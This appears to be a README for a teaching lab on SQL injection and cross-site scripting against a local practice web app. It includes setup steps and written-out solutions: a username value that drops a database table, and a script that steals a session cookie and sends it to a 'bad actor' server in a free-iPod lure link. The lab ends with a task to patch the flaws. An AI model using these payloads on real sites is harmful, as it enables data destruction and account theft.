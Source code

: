 # Cross-site Scripting and SQL Injection

OWASP is one of those unofficial official organizations that holds a lot of sway in the security world.  They publish a few guides that tend to be seen as authoritative.  One of those guides is the annual [OWASP Top Ten](https://owasp.org/www-project-top-ten/).  

These are the most common and most serious security flaws and vulnerabilities on the web today.  Just for the sake of thoroughness--and because, just maybe, you are wary of clicking on just any old link you happen across--, here is OWASP's most recent top 10:

1. Injection
2. Broken Authentication
3. Sensitive Data Exposure
4. XML External Entities
5. Broken Access Control
6. Security Misconfiguration
7. Cross-Site Scripting
8. Insecure Deserialization
9. Using Components with Known Vulnerabilities
10. Insufficient Logging and Monitoring

We're going to spend today worrying about SQL Injection and Cross-Site Scripting.

## SQL Injection
Always Sanitize Your Inputs.  We are already familiar with basic SQL commands, such as this fine query that returns everything in the "users" table:

```SQL
SELECT * FROM users;
```

Well, let's say you have a website where you sell Compact Discs on the Internet.  





## Challenges


### Setup
The challenges for today will require a little bit of setup.  

1. Clone this repo and cd into the base directory.
2. Create a virtual environment

```bash
python -m venv venv
```

3. Activate your virtual environment

```bash
source venv/bin/activate
```

4. Install the necessary Python module(s)

```bash
pip install -r requirements.txt
```

Run the bash script:
```bash
./start.sh
```
It will populate the database, and start the server.

Go to localhost:2222/ and see what you can do.

### SQL Injection Challenge: Little Bobby Tables
Some people just want to watch the world burn.  Today you'll get to sample that delicious nihilism as you (relatively) easily break things that other people spent so much more time making.  

Don't get me wrong, hackers aren't all bleakness and evil--they also love a good laugh.  In the dark corners of the internet, where everyone types with a hoodie on, there's a well-known internet comic.

[Here is one of his comics](https://xkcd.com/327/)

Unfortunately, I'm not sure I get the joke.  What could it mean?  

Note: Your database might become corrupted as you work through this challenge.  If so, simply start fresh by deleting users_posts.db, and running the start script.  When you do figure it out, you'll definitely have to re-create the database.

## Solution
In username:
```SQL
username'; DROP TABLE posts;
```


### Cross-Site Scripting Challenge: Claim Your Free Ipod!!!11
This one has some extra setup.  You'll be running an additional server on localhost:5000.  From the base directory, and in another terminal (split terminal):
1. npm install
2. node badActorServer.js

Now you have two whole servers running at the same time.

Savy internet users know to avoid Nigerian royals and herbal enhancements... But who can resist a brand new Ipod?  In a moment of weakness, you might even be tempted to click that flashing link and roll the dice.  Let's find out why you shouldn't do that.

This one is a little more complicated than the first.

Your goal is to get an unsuspecting FakeSociety user to click on a link.  You'll have to figure out some way to get that content into FakeSociety's server, onto their page, and make it tempting enough to click.  That link will direct the user to your nefarious server (badActorServer.js) and take along the user's bank account session cookie.  That cookie contains the user's bank account login information.  You should see the users bank account login information displayed to you on the page.  Then--and here's the irony--you're going to go out and buy your own Ipod!

## Solution
In username:
```html
    <script>let baseUrl = 'http://127.0.0.1:5000/'; let decodedCookie = decodeURIComponent(document.cookie); let cookieArr = decodedCookie.split(';')[1]; let finalCookie = cookieArr.split("=")[1]; let complete = `${baseUrl}${finalCookie}`; console.log(complete); document.write(`<h1><a href=${complete}>Click here for a free ipod</a></h1>`)</script>

```


## The Ethical Hacker
After years of cybrcrime, you start having second thoughts about your place in the world.  Sure, you have lots of Ipods, and no school records, but in the end, aren't you really just a social parasite?  It's time to make amends.  Since you know how to break it, it shouldn't be that hard to fix it.  

Change the source code so that your old attacks don't work anymore.